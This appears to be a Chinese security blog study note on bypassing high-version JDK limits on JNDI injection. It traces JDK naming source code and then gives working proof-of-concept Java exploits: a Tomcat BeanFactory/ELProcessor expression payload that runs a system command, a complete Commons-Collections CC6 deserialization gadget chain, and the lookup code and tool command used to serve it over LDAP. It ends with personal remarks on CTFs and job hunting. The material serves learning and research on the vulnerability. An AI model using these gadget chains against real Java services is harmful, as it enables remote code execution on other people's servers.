





+++
title= "JNDI 注入绕过高版本 JDK 限制"
slug= "jndi-injection-bypass-high-version-jdk"
description= ""
date= "2026-02-09T22:03:34+08:00"
lastmod= "2026-02-09T22:03:34+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

前面学习 JNDI 注入的时候就有阅读过源码，主要有两种手段，一种是通过反序列化绕过，还有一种是直接调用本地的工厂类，环境直接把 8u66 换成 jdk8u202 就行了

在`com/sun/jndi/cosnaming/CNCtx.class`中可以找到这段代码

```java
static {
        PrivilegedAction var0 = () -> System.getProperty("com.sun.jndi.cosnaming.object.trustURLCodebase", "false");
        String var1 = (String)AccessController.doPrivileged(var0);
        trustURLCodebase = "true".equalsIgnoreCase(var1);
    }
```

默认将 trustURLCodebase 这个属性设置为 false，除非系统设置为 true 才会设置为 true，那么如何绕过呢，前面我们学习到过相关知识，在`com.sun.jndi.ldap.Obj.decodeObject`

```java
static Object decodeObject(Attributes var0) throws NamingException {
    String[] var2 = getCodebases(var0.get(JAVA_ATTRIBUTES[4]));

    try {
        Attribute var1;
        if ((var1 = var0.get(JAVA_ATTRIBUTES[1])) != null) {
            ClassLoader var3 = helper.getURLClassLoader(var2);
            return deserializeObject((byte[])var1.get(), var3);
        } else if ((var1 = var0.get(JAVA_ATTRIBUTES[7])) != null) {
            return decodeRmiObject((String)var0.get(JAVA_ATTRIBUTES[2]).get(), (String)var1.get(), var2);
        } else {
            var1 = var0.get(JAVA_ATTRIBUTES[0]);
            return var1 == null || !var1.contains(JAVA_OBJECT_CLASSES[2]) && !var1.contains(JAVA_OBJECT_CLASSES_LOWER[2]) ? null : decodeReference(var0, var2);
        }
    } catch (IOException var5) {
        NamingException var4 = new NamingException();
        var4.setRootCause(var5);
        throw var4;
    }
}
//static final String[] JAVA_ATTRIBUTES = new String[]{"objectClass", "javaSerializedData", "javaClassName", "javaFactory", "javaCodeBase", "javaReferenceAddress", "javaClassNames", "javaRemoteLocation"};
```

我们可以看出来是能够通过 javaSerializedData，也就是LDAP中有序列化数据，直接反序列化攻击本地的 vul gadget，还有一种依然是我们的 Reference 对象引用，这里跟进下 decodeReference 看下具体实现

```java
private static Reference decodeReference(Attributes var0, String[] var1) throws NamingException, IOException {
        String var4 = null;
        Attribute var2;
        if ((var2 = var0.get(JAVA_ATTRIBUTES[2])) == null) {
            throw new InvalidAttributesException(JAVA_ATTRIBUTES[2] + " attribute is required");
        } else {
            String var3 = (String)var2.get();
            if ((var2 = var0.get(JAVA_ATTRIBUTES[3])) != null) {
                var4 = (String)var2.get();
            }

            Reference var5 = new Reference(var3, var4, var1 != null ? var1[0] : null);
            if ((var2 = var0.get(JAVA_ATTRIBUTES[5])) != null) {
                BASE64Decoder var13 = null;
                ClassLoader var14 = helper.getURLClassLoader(var1);
                Vector var15 = new Vector();
                var15.setSize(var2.size());
                NamingEnumeration var16 = var2.getAll();

                while(var16.hasMore()) {
                    String var6 = (String)var16.next();
                    if (var6.length() == 0) {
                        throw new InvalidAttributeValueException("malformed " + JAVA_ATTRIBUTES[5] + " attribute - empty attribute value");
                    }

                    char var9 = var6.charAt(0);
                    int var10 = 1;
                    int var11;
                    if ((var11 = var6.indexOf(var9, var10)) < 0) {
                        throw new InvalidAttributeValueException("malformed " + JAVA_ATTRIBUTES[5] + " attribute - separator '" + var9 + "'not found");
                    }

                    String var7;
                    if ((var7 = var6.substring(var10, var11)) == null) {
                        throw new InvalidAttributeValueException("malformed " + JAVA_ATTRIBUTES[5] + " attribute - empty RefAddr position");
                    }

                    int var12;
                    try {
                        var12 = Integer.parseInt(var7);
                    } catch (NumberFormatException var18) {
                        throw new InvalidAttributeValueException("malformed " + JAVA_ATTRIBUTES[5] + " attribute - RefAddr position not an integer");
                    }

                    var10 = var11 + 1;
                    if ((var11 = var6.indexOf(var9, var10)) < 0) {
                        throw new InvalidAttributeValueException("malformed " + JAVA_ATTRIBUTES[5] + " attribute - RefAddr type not found");
                    }

                    String var8;
                    if ((var8 = var6.substring(var10, var11)) == null) {
                        throw new InvalidAttributeValueException("malformed " + JAVA_ATTRIBUTES[5] + " attribute - empty RefAddr type");
                    }

                    var10 = var11 + 1;
                    if (var10 == var6.length()) {
                        var15.setElementAt(new StringRefAddr(var8, (String)null), var12);
                    } else if (var6.charAt(var10) == var9) {
                        ++var10;
                        if (var13 == null) {
                            var13 = new BASE64Decoder();
                        }

                        RefAddr var17 = (RefAddr)deserializeObject(var13.decodeBuffer(var6.substring(var10)), var14);
                        var15.setElementAt(var17, var12);
                    } else {
                        var15.setElementAt(new StringRefAddr(var8, var6.substring(var10)), var12);
                    }
                }

                for(int var25 = 0; var25 < var15.size(); ++var25) {
                    var5.add((RefAddr)var15.elementAt(var25));
                }
            }

            return var5;
        }
    }
```



这里返回了一个 Reference 对象，

```java
// var3 是类名 (className)
// var4 是工厂类名 (classFactory)
// var1[0] 是工厂类地址 (classFactoryLocation) - 高版本因 trustURLCodebase=false 被忽略
Reference var5 = new Reference(var3, var4, var1 != null ? var1[0] : null);
```

下一步 会拿着这个 Reference 对象去调用`NamingManager.getObjectInstance()`

```java
public static Object
        getObjectInstance(Object refInfo, Name name, Context nameCtx,
                          Hashtable<?,?> environment)
        throws Exception
    {

        ObjectFactory factory;

        // Use builder if installed
        ObjectFactoryBuilder builder = getObjectFactoryBuilder();
        if (builder != null) {
            // builder must return non-null factory
            factory = builder.createObjectFactory(refInfo, environment);
            return factory.getObjectInstance(refInfo, name, nameCtx,
                environment);
        }

        // Use reference if possible
        Reference ref = null;
        if (refInfo instanceof Reference) {
            ref = (Reference) refInfo;
        } else if (refInfo instanceof Referenceable) {
            ref = ((Referenceable)(refInfo)).getReference();
        }

        Object answer;

        if (ref != null) {
            String f = ref.getFactoryClassName();
            if (f != null) {
                // if reference identifies a factory, use exclusively

                factory = getObjectFactoryFromReference(ref, f);
                if (factory != null) {
                    return factory.getObjectInstance(ref, name, nameCtx,
                                                     environment);
                }
                // No factory found, so return original refInfo.
                // Will reach this point if factory class is not in
                // class path and reference does not contain a URL for it
                return refInfo;

            } else {
                // if reference has no factory, check for addresses
                // containing URLs

                answer = processURLAddrs(ref, name, nameCtx, environment);
                if (answer != null) {
                    return answer;
                }
            }
        }

        // try using any specified factories
        answer =
            createObjectFromFactories(refInfo, name, nameCtx, environment);
        return (answer != null) ? answer : refInfo;
    }
```

提取工厂类名，实例化工厂类，factory 设置为本地存在的，

```java
static ObjectFactory getObjectFactoryFromReference(
        Reference ref, String factoryName)
        throws IllegalAccessException,
        InstantiationException,
        MalformedURLException {
        Class<?> clas = null;

        // Try to use current class loader
        try {
             clas = helper.loadClass(factoryName);
        } catch (ClassNotFoundException e) {
            // ignore and continue
            // e.printStackTrace();
        }
        // All other exceptions are passed up.

        // Not in class path; try to use codebase
        String codebase;
        if (clas == null &&
                (codebase = ref.getFactoryClassLocation()) != null) {
            try {
                clas = helper.loadClass(factoryName, codebase);
            } catch (ClassNotFoundException e) {
            }
        }

        return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
    }
```

`helper.loadClass`加载工厂类



## 本地工厂类

`org.apache.naming.factory.BeanFactory`刚好满足条件并且存在被利用的可能，并且存在于Tomcat依赖包中，所以使用也是非常广泛



其 getObjectInstance 方法会检查是否为 ResourceRef 对象，然后对其进行加载，demo 如下

```java
package org.example;

import org.apache.naming.ResourceRef;
import javax.naming.StringRefAddr;
import javax.naming.spi.NamingManager;

public class LocalFactoryTest {
    public static void main(String[] args) throws Exception {
        ResourceRef ref = new ResourceRef(
                "javax.el.ELProcessor",
                null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null
        );

        ref.add(new StringRefAddr("forceString", "xxx=eval"));
        String cmd = "open -a Calculator";

        String payload = "\"\".getClass().forName(\"javax.script.ScriptEngineManager\")" +
                ".newInstance().getEngineByName(\"JavaScript\")" +
                ".eval(\"java.lang.Runtime.getRuntime().exec('" + cmd + "')\")";
        ref.add(new StringRefAddr("xxx", payload));
        NamingManager.getObjectInstance(ref, null, null, null);
    }
}
```

调用栈

```java
at javax.el.ELProcessor.eval(ELProcessor.java:54)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at org.apache.naming.factory.BeanFactory.getObjectInstance(BeanFactory.java:210)
at javax.naming.spi.NamingManager.getObjectInstance(NamingManager.java:321)
at org.example.LocalFactoryTest.main(LocalFactoryTest.java:22)
```

## 反序列化

这里我们以CC6为例子

CC6 poc

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class CC6 {
        public static void main(String[] args) throws Exception {
            Transformer[] fakeTransformers = new Transformer[] {
                    new ConstantTransformer(1)
            };

            Transformer[] transformers = new Transformer[] {
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod",
                            new Class[] { String.class, Class[].class },
                            new Object[] { "getRuntime", new Class[0] }),
                    new InvokerTransformer("invoke",
                            new Class[] { Object.class, Object[].class },
                            new Object[] { null, new Object[0] }),
                    new InvokerTransformer("exec",
                            new Class[] { String[].class },
                            new Object[]{new String[]{"open", "-a", "Calculator"}}),
                    new ConstantTransformer(1)
            };

            Transformer chainedTransformer = new ChainedTransformer(fakeTransformers);
            Map innerMap = new HashMap();
            Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);

            TiedMapEntry entry = new TiedMapEntry(outerMap, "foo");

            HashSet<Object> hashSet = new HashSet<Object>();
            hashSet.add(entry);

            outerMap.remove("foo");
            Field transformersField = ChainedTransformer.class.getDeclaredField("iTransformers");
            transformersField.setAccessible(true);
            transformersField.set(chainedTransformer, transformers);

            byte[] data = serialize(hashSet);
            try (FileOutputStream fos = new FileOutputStream("payloadx.bin")) {
                fos.write(data);
            }
            //unserialize(data);
        }

        public static byte[] serialize(Object obj) throws IOException {
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            ObjectOutputStream oos = new ObjectOutputStream(baos);
            oos.writeObject(obj);
            oos.close();
            return baos.toByteArray();
        }

        public static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
            ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
            ObjectInputStream ois = new ObjectInputStream(bais);
            Object obj = ois.readObject();
            ois.close();
            return obj;
        }
    }
```

JNDI poc

```java
package org.example;

import javax.naming.InitialContext;

public class Test5 {
    public static void main(String[] args) throws Exception {
        String uri="ldap://127.0.0.1:1389/Deserialize/FromFile/payloadx.bin";
        InitialContext context = new InitialContext();
        context.lookup(uri);
    }
}
```



```bash
java -jar JNDIMap-0.0.4.jar -i 0.0.0.0 -p 8000
```



也可以以这道题为参考

https://baozongwi.xyz/p/hitctf-2025-ezloader/

本文章使用的pom.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>jndi</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-core</artifactId>
            <version>9.0.62</version>
        </dependency>

        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-el</artifactId>
            <version>9.0.62</version>
        </dependency>

        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.28.0-GA</version>
        </dependency>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
    </dependencies>

</project>
```

## 碎碎念

由于期末回去了学校，所以博客一直没有更新，回到上海之后又由于找下一段实习也没怎么学习技术，情况可谓是相当惨烈，字节一面给我干到数据安全，所以直接🐔，百度二面没过，可惜🤡，但是由于一面面试的时候基础不扎实，还被崔师傅羞辱了一下。

现在 AI 发展的真是越来越快了，很多工作中的内容也使用到了 AI 来提效，看我博客的师傅大部分也是CTFer，所以这里我不得不给大家提一个我想说的建议，少打CTF，因为CTF里面有什么漏洞，取决于出题人会什么，那么他在安全里面绝对是很小的一部分，唯一不可厚非的就是代码审计能力，但是现在，我看很多师傅也使用了AI来做绝大多数的代审工作（包括我自己）。

绝大多数出题人出的题其实和实际业务里面的关系不大，甚至可以说是在YY，比方说php这玩意，国内除了某些老系统和一坨CMS谁还用了，还有就是常见的SSRF和越权，从未见人出过，本来漏洞类型就多，手法更是，但是由于出题人的局限，学习到就更少了，不如挖点SRC。

特别是最近看了一些新生赛，这是新生赛吗？以及测题人在自己字典里面没有`webshell.php`，你在逗我吗，不会搜字典，让我改成`shell.php`😅

> 以上纯属个人看法，如有冒犯还请担待。


> https://paper.seebug.org/942/
>
> https://tttang.com/archive/1405/
>
> https://stack.chaitin.com/techblog/detail/249
>
> https://research.qianxin.com/archives/2414
